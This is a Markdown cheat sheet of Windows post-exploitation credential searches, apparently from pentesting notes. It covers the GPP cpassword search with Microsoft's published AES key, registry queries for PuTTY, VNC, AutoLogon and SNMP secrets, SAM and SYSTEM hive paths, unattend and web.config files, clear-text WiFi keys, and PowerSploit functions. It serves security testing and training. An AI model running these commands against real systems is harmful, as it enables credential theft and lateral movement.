 # Simple Credential Searches
## Mass Install of Windows to Labs
Sometimes the mass-install process of many Microsoft Windows machines in the same environment can leave behind log files with sensitive information in them. We can check a few of these files if they exist on the file system onthe compromised target Windows machine,
```
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```
## Groups.xml (GPP)
If we have access to the SYSVOL/groups.xml file, we have access to any passwords encrypted in there. When a new GPP is created, there’s an associated XML file created in SYSVOL with the relevant configuration data and if there is a password provided, it is AES-256 bit encrypted. 

Since authenticated users (any domain user or users in a trusted domain) have read access to SYSVOL, anyone in the domain can search the SYSVOL share for XML files containing “cpassword” which is the value that contains the AES encrypted password.
```
C:> findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```
The AES decryption key, published by Microsoft themselves, is,
```
4e 99 06 e8  fc b6 6c c9  fa f4 93 10  62 0f fe e8	
f4 96 e8 06  cc 05 79 90  20 9b 09 a4  33 b6 6c 1b
```
There is a PowerSploit Power Shell script that we can use to automate the password reveal [located here.](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)
## More Possible Credential Files
#### XML INI CONFIG Credentials
```
C:> dir /s *pass* == *cred* == *vnc* == *.config*
C:> findstr /si password *.xml *.ini *.txt
```
## Registry Searches for Credentials
#### PuTTY
```
reg query" HKCU\Software\SimonTatham\PuTTY\Sessions"
```
#### RealVNC
```
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```
#### Windows AutoLogin
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```
#### SNMP
```
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```
#### Last-Ditch-Effort Registry Search
```
C:> reg query HKLM /f password /t REG_SZ /s
C:> reg query HKCU /f password /t REG_SZ /s
```
## SAM 
We can check the following files for credentials
```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```
## Unattended
Unattend XML Files may contain passwords also,
```
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
## IIS Admin Credentials
The following locations should be checked for plain-text adminstrator credentials for the IIS server.
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```
## WiFi Passwords
We might be able to reuse a WiFi password on a compromised system if we have view access to it.
```
C:> netsh wlan show profile
C:> netsh wlan show profile (SSID) key=clear
```
## Using PowerSploit
```
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
```
## Config/XML/INF Files
```
C:\> dir /b /s web.config
C:\> dir /b /s unattend.xml
C:\> dir /b /s sysprep.inf
C:\> dir /b /s sysprep.xml
C:\> dir /b /s *pass*
```
